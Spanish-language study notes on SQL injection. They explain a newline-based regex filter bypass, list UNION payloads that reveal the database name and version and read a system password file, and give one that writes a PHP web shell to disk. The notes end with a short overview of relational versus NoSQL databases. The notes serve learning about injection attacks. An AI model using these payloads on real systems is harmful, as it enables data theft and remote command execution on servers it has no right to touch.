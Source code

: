 ![[regex_CRLF_injection.png]]
### Como se puede ver en este ejemplo, la introducción de un carácter de salto de línea resulta en la incapacidad de las expresiones regulares para efectura una coincidencia con nuestra entrada de deatos. Este efecto de evación propicia la capacidad de inyectar la consulta SQL de manera exitosa.

---
# Injecciones interesantes 

## Listar Base de datos en uso
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT database() 
```
## Listar version de MySQL
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT @@version
```
## Intentar leer un archivo del sistema 
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT load_file('etc/passwd')
```
## Intentar ingresar un archivo en una ruta del sistema
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT '<?php echo "<pre>" . shell_exec($_GET[\'cmd\']) . "</pre>"; ?>' INTO outfile '/tmp/file.php'
```

---

# Base de datos: 

### Es importante hacer una breve distinción entre los diferentes tipo de base de datos.

- ## Bases de datos relacionales
### Las inyescciones [[SQL]] son más comunes en bases de datos relacionales como **MySQL**, **SQL Server**, **Oracle**, **PostgreSQL**, entre otros. En estas base de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.

- ## Bases de datos NoSQL 
### Aunque las inyecciones SQL son menos comunes en base de datos NoSQL, todavía es posible realizar este tipo de ataque. Las bases de datos NoSQL, como **MongoDB** o **Cassandra**, no utilizan el lenguaje SQL, sino un modelo de datos diferete. Sin embargo, es posible realizar inyescciones de comandos en las consultas que se realizan en estas bases de datos. 
